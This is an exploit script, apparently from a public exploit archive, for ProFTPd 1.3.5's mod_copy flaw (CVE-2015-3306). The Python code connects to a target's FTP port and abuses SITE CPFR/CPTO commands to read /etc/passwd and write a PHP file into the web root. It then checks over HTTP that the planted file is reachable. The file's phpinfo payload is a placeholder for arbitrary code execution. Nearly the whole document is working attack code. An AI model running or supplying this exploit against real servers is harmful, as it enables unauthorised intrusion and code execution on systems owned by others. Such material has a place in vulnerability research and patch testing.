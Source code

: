 EXP
---

    # Exploit Title: ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)
    # Date: 25/05/2021
    # Exploit Author: Shellbr3ak
    # Version: 1.3.5
    # Tested on: Ubuntu 16.04.6 LTS
    # CVE : CVE-2015-3306

    #!/usr/bin/env python3

    import sys
    import socket
    import requests

    def exploit(client, target):
        client.connect((target,21)) # Connecting to the target server
        banner = client.recv(74)
        print(banner.decode())
        client.send(b'site cpfr /etc/passwd\r\n')
        print(client.recv(1024).decode())
        client.send(b'site cpto <?php phpinfo(); ?>\r\n') # phpinfo() is just a PoC.
        print(client.recv(1024).decode())
        client.send(b'site cpfr /proc/self/fd/3\r\n')
        print(client.recv(1024).decode())
        client.send(b'site cpto /var/www/html/test.php\r\n')
        print(client.recv(1024).decode())
        client.close()
        print('Exploit Completed')

    def check(url):
        req = requests.get(url) # Requesting the written PoC php file via HTTP
        if req.status_code == 200:
            print('[+] File Written Successfully')
            print(f'[+] Go to : {url}')
        else:
            print('[!] Something Went Wrong')
            print('[!] Directory might not be writable')

    def main():
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        target = sys.argv[1]
        exploit(client, target)
        url = 'http://' + target + '/test.php'
        check(url)

    if __name__ == '__main__':
        main()
